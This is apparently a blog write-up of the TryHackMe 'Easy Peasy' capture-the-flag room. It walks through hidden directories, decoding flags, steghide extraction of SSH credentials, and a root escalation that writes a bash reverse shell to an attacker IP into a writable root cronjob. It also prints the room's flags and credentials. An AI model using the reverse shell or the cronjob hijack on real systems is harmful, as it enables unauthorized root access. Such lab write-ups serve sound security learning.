 ```yaml
---
title: Easy Peasy
description: 'Finding hidden directories, using steghide and abusing a cronjob to escalate to root'
pubDate: 2024-08-23
category: 'tryhackme'
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/c376e08c928f806745c90c93b051127a.png'
---
```


Running a feroxbuster on the target reveals some interesting dirs.

```bash
feroxbuster -u http://10.10.173.229
...[snip]...
[####################] - 66s    30000/30000   452/s   http://10.10.173.229/hidden/
[####################] - 65s    30000/30000   460/s   http://10.10.173.229/hidden/whatever/
```

On the page `/hidden/whatever/` we find a hidden string in the source.
The string `ZmxhZ3tmMXJzN19mbDRnfQ==` looks like base 64.
```bash
echo ZmxhZ3tmMXJzN19mbDRnfQ== | base64 -d
flag{f1rs7_fl4g}
```

On the high port (`65524`) we find the next flag "hidden" in the text.

```
flag{9fdafbd64c47471a8f54cd3fc64cd312}
```

If we check the `robots.txt` we get an other flag.
```
...[snip]...
User-Agent:a18672860d0510e5ab6699730763b250
...[snip]...
```

Looking up this hash online it shows the second flag (https://md5.gromweb.com/?md5=a18672860d0510e5ab6699730763b250): `flag{1m_s3c0nd_fl4g}`

And also a "hidden" flag in the source.

```html
<p hidden>its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu</p>
```

Trying a few base encodings on CyberChef (https://gchq.github.io/CyberChef/#recipe=From_Base62('0-9A-Za-z')&input=T2JzSm1QMTczTjJYNmRPckFnRUFMMFZ1) we find its base62.
`/n0th1ng3ls3m4tt3r`

This is the next step which seems like a dir on the target.
Again there is a "hidden" string in on the page: `940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81`

This is possibly a hash. I tried cracking it with `rockyou.txt` but it didn't find anything.

```bash
hashcat -m 6900 '940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81' /usr/share/wordlists/rockyou.txt
```

Searching this string online will give us this:

```
Gost hash
calculated hash digest
940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81
Gost value
Reversed hash value
mypasswordforthatjob
```

When downloading the image from that page and using the password we just found with steghide we see an interesting file.

```bash
steghide info binarycodepixabay.jpg -p mypasswordforthatjob
"binarycodepixabay.jpg":
  format: jpeg
  capacity: 4.6 KB
  embedded file "secrettext.txt":
    size: 278.0 Byte
    encrypted: no
    compressed: no
```

Extracting the file:

```bash
steghide extract -sf binarycodepixabay.jpg -xf secrettext.txt -p mypasswordforthatjob
```
In the file there is a username and a password in binary format, converting it gives the plain text password

`boring:iconvertedmypasswordtobinary`


## USER

When we cat the user flag it looks like its encoded.

```
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}
```

This looks like a simple ROT13 cipher (https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,false,13)&input=c3ludHthMGp2Z2YzM3pmYTBlejR5fQ): `flag{n0wits33msn0rm4l}`


## ROOT

When we login on SSH we see a message:

```
You Have 1 Minute Before AC-130 Starts Firing
```

So it seems that something is running every minute, lets check the crontab:

```bash
cat /etc/crontab
...[snip]...
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```

We have write access to this file so we can add a reverse shell to it:

```bash
nano /var/www/.mysecretcronjob.sh
#!/bin/bash
# i will run as root
bash -i >& /dev/tcp/10.8.119.137/4444 0>&1
```
After a minute we get a root shell on our listener.

